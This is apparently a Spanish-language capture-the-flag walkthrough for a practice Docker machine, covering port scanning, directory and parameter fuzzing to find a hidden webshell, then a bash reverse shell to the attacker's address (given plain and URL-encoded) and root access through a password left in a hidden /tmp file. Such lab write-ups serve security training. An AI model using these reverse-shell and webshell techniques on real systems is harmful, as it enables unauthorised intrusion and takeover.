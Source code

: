 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```
![alt text](image.png)

Vemos que está corriendo un servidor Apache 2.4.57 en el puerto 80 con un servicio http. Vamos a ver que esconde la web.
![alt text](image-1.png)

Vemos que sale una web simple, vamos a realizar un fuzzing de la web para ver si tiene algún directorio o archivo oculto.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r --no-error -b 404,403 -x txt,html,php
```
![alt text](image-2.png)

Vemos que nos salen dos archivos curiosos, vamos a ver que nos da el `warning.html`.
![alt text](image-3.png)

Vemos que nos mustra que la máquina se puede atacar por una webshell. Ahora vamos a ver que nos muestra el archivo `shell.php`.
![alt text](image-4.png)

Vemos que no muestra nada, así que vamos a realizar un fuzzing de variables para webshell.
```
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt --hc=404,500 -u "http://172.17.0.2/shell.php?FUZZ=id"
```
![alt text](image-5.png)

Vemos que con el payload `parameter` tenemos una webshell, ahora vamos a comprobar que funciona.
![alt text](image-6.png)

Vemos que funciona, ahora vamos a generarnos una reverse shell, para ello nos tenemos que poner a la escucha.
```
nc -lnvp
```
![alt text](image-7.png)

Una vez estamos a la escucha, vamos a urlencodear lo siguiente.
```
bash -c 'exec bash -i &>/dev/tcp/172.17.0.1/6969 <&1'
```
Urlencodeado:
```
%62%61%73%68%20%2d%63%20%27%65%78%65%63%20%62%61%73%68%20%2d%69%20%26%3e%2f%64%65%76%2f%74%63%70%2f%31%37%32%2e%31%37%2e%30%2e%31%2f%36%39%36%39%20%3c%26%31%27
```

Una vez lo tenemos lo pegamos en la url después del `=`. Y si al darle enter se queda colgada la web es que habrá funcionado.
![alt text](image-8.png)

Ahora vamos a escalar privilegios. Nos dirigiremos a la carpeta `/tmp` y veremos que hay un archivo oculto llamado `.secret.txt`, lo abriremos y nos daremos cuenta que es la contraseña de root.
```
su root
password: contraseñaderoot123
```
![alt text](image-9.png)